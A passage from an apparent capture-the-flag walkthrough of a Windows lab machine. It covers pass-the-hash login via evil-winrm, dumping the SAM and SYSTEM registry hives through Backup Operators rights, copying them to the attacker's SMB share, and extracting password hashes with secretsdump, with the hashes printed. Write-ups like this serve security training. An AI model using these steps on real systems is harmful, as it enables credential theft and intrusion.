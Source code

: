 The user is part of the `Remote Management Users` and that can give us a shell via winrm.

```terminal
[★]$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d           

Evil-WinRM shell v3.5                          
                                         
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                         
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                         
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

We also saw that the user is part of `backup operators` group, which would allows us to read sam and system files.

```terminal
*Evil-WinRM* PS C:\Users\svc_backup\desktop> reg save HKLM\system .\system     
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\desktop> reg save HKLM\sam .\sam
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\desktop> copy sam \\10.10.16.18\share
*Evil-WinRM* PS C:\Users\svc_backup\desktop> copy system \\10.10.16.18\share
```

After sending the files to our machine we can extract hashes with `secretsdump`

```terminal
[★]$ secretsdump.py -sam sam -system system local
/home/sirius/.local/pipx/venvs/impacket/lib/python3.11/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

We got the local administrator hash, but trying the login with it fails.

## **Privilege Escalation**
